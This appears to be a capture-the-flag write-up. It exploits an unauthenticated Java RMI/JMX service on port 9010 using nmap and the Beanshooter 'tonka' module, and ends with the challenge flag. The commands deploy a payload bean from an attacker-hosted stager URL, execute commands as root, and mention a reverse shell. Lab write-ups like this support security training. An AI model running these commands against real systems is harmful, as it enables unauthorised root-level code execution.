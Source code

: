 # Nmap

After a quick nmap scan, there is a [Java RMI](https://en.wikipedia.org/wiki/Java_remote_method_invocation) server running on the port.

```bash
nmap -Pn -sV -p 9010 10.10.8.11
```

```
PORT     STATE SERVICE  VERSION
9010/tcp open  java-rmi Java RMI
```

# Beanshooter

The [Beanshooter](https://github.com/qtc-de/beanshooter) tool can be used. 

There is not even authentication on the server.

![](screenshots/1.png)

With the `tonka` module code can be invoked directly, there is no need for manual MBean component creation.

```bash
java -jar /tmp/beanshooter.jar tonka deploy 10.10.8.11 9010 --stager-url http://10.8.0.15:8000
java -jar /tmp/beanshooter.jar tonka status 10.10.8.11 9010
java -jar /tmp/beanshooter.jar tonka exec 10.10.8.11 9010 id
# To remove after we finished
java -jar /tmp/beanshooter.jar undeploy 10.10.8.11 9010 MLetTonkaBean:name=TonkaBean,id=1
```

![](screenshots/2.png)

The service is running as root. Our favorite reverse shell can be used to look around.

![](screenshots/3.png)

# Flag
`{HSCSC}-R0o7$Fl@g_f0r-Pr!nces5`

# Spoiler
There is a [boss_note.txt](workdir/boss_note.txt) file with credentials.

![](screenshots/4.png)